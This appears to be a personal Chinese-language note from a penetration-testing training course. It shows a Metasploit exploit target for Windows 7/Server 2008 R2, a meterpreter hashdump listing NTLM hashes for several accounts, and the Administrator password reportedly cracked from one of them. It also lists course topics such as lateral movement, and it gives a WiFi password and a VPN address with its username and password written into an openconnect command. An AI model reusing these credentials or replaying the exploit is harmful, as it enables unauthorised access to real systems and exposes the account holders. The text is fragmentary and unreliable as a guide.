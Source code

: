 
Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

##### 【正向和反向的区别???】 正向时，肉鸡为lhost和lport ???


> run  【成功以后：】


meterpreter > hashdump
admin:1000:aad3b435b51404eeaad3b435b51404ee:6136ba14352c8a09405bb14912797793:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:00affd88fa323b00d4560bf9fef0ec2f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mysql:1003:aad3b435b51404eeaad3b435b51404ee:bc773a35876802f7edd10adcd0214dcf:::
pc:1002:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
test:1001:aad3b435b51404eeaad3b435b51404ee:0cb6948805f797bf2a82807973b89537:::
test123:1004:aad3b435b51404eeaad3b435b51404ee:c5a237b7e9d8e708d8436b6148a25fa1:::

https://www.somd5.com/  对md5解密：  得到 【  Administrator  /  123qwe!@# 】




### 总体培训环节：
攻击框架使用。
漏洞利用与权限提升。
内网穿透
横向移动
实战演练

#### 内网拓扑
![01.01-内网拓扑-20210802174456.jpg](vx_images/3132744137308.png)


##### MSF 

基本模块show module（table键可补全）???
1.Auxiliary(辅助模块)
2.Exploits(攻击模块)
3.Payload(攻击载荷模块)
4.Post（后渗透模块）
5.Encoders（编码模块）



# 安装与在线环境【】【】【20211027-网上账号不给用了】

5、WiFi dbapp，密码是dbapp@2020


4、kali中，
我的VPN： https://183.129.189.62:4434  connect_KTvgKB4r  x$396de4
kali 连接方式：
sudo openconnect https://183.129.189.62:4434 -u connect_KTvgKB4r -p x\$396de4   【 kali密码为kali，粘贴vpn用户密码（没有回显，直接回车！）： x$396de4  】
